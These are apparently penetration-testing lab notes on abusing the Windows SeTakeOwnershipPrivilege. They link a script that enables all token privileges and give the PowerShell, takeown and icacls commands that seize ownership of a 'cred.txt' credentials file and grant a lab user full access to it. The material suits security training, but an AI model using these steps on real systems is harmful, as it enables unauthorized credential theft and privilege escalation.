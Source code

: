# SeTakeOwnershipPrivilege

First enable the permission using this [script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)

*   Get info:

    ```
    Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
    ```
*   Take ownership:

    ```
    takeown /f 'C:\Department Shares\Private\IT\cred.txt'
    ```
*   Modify ACL

    ```
    icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
    ```
* Access the file.
